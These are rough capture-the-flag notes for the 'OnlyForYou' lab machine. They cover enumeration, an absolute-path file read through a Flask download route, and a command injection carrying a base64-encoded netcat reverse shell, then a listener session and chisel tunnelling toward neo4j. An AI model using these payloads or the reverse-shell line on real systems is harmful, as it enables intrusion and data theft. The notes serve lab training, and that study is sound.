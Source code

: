 # Only For  You usrer8788 Notes

Pre-Req
> Connect to the Seasonal VPN
> IP = 10.129.70.214                                                                              
┌──(toor㉿kali)-[~/OnlyForYou]
└─$ sudo openvpn ~/Downloads/competitive_DefenceLogic.ovpn 


## Enumeration Phase

### Nmap Scan 

NmaFrom our nmap scan we can see a webpage
_http-title: Did not follow redirect to http://only4you.htb/


Add this to the /etc/hosts file
> 10.129.70.214 only4you.htb

Viewing the Services page, we find an inactive subdomain
https://beta.only4you.htb/
    add this to our /etc/hosts and see what we get...
> 10.129.70.214 only4you.htb beta.only4you.htb 

### Subdomain enum

http://beta.only4you.htb/ gives us a link to download their source code 
[BurpSuite??]http://beta.only4you.htb/resize gives us the ability to **upload images**
[BurpSuite??]http://beta.only4you.htb/convert gives us the ability to **upload images**

### Source Code Enum

> Looking at the source code, we can see that the download function of app.py is vulnerable
'''
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
> Path traversal workaround needed
  **if '..' in filename or filename.startswith('../'):**
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
'''
> Since this application uses flask, there is a vuln that allows us to look for any file as long as we know the full path.



### BurpSuite 

#### LFI Manual part 1 
1. Go to /resize and upload an image
2. Open BurpSuite and turn on FoxyProxy (Burp)
3. Set Intercept to On
4. Once we are on the /list page, download any file.
5. Capture the request and send to repeater  (Ctrl + R)
6. Change the *image* to /etc/passwd

'''
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
**neo4j:x:997:997::/var/lib/neo4j:/bin/bash**
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
'''



#### LFI via ffuf manual (Without Burp Pro)
> We are looking for an nginx config file as seclists did not give us much
> The things we need are as followed
[x] a config file ( we have that nginx )
[] Default creds 
[] A user that would take those default creds 


Using ChatGPT, create a simple payload list for the defualt nginx files:
Q: give it in a .txt code block so I can copy it into a wordlist for fuzzing aswell as the full path. Also ndo not include your notes after the file

A: 
'''
/etc/nginx/nginx.conf
/etc/nginx/fastcgi_params
/etc/nginx/mime.types
/etc/nginx/sites-available/default
/etc/nginx/sites-enabled/default
/etc/nginx/proxy_params
/etc/nginx/ssl_params
/etc/nginx/uwsgi_params
/etc/nginx/scgi_params
/etc/nginx/koi-utf
'''

Use the intruder and sniper with that payload to perform the attack
Once the attack is finsihed, look through you results.

Looking at the sites-available, we have found the root location of the web application:
'''
	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
'''

Now that we have the root folder for the web application, we can now grab the app.py file with the repeater tab we used earlier.









Content-Length: 168

email=test@google.com;echo%20cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjI1IDkwMDEgPi90bXAvZg==|base64%20-d|bash&subject=ss&message=ss


┌──(toor㉿kali)-[~/OnlyForYou]
└─$ nc -lvnp 9001  
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.129.70.214] 35562
sh: 0: can't access tty; job control turned off
$ 
$ 
$ whoami
www-data
$ 

Now that we have access, we will need to go back to the etc./passwd file to notice the user neo4j is of interest

**neo4j:x:997:997::/var/lib/neo4j:/bin/bash**

> neo4j  | HTTP | 7474 |  server.http.listen_address
>        | Bolt | 7687 |  server.bolt.listen.address

Attack Box
└─$ ./chisel server -p 9999 --reverse


TArget Box 

www-data@only4you:~/only4you.htb/tmp$ chisel server 10.10.14.25:9999 R:7687:0.0.0.0:7687 R:7474:127.0.0.1:7474  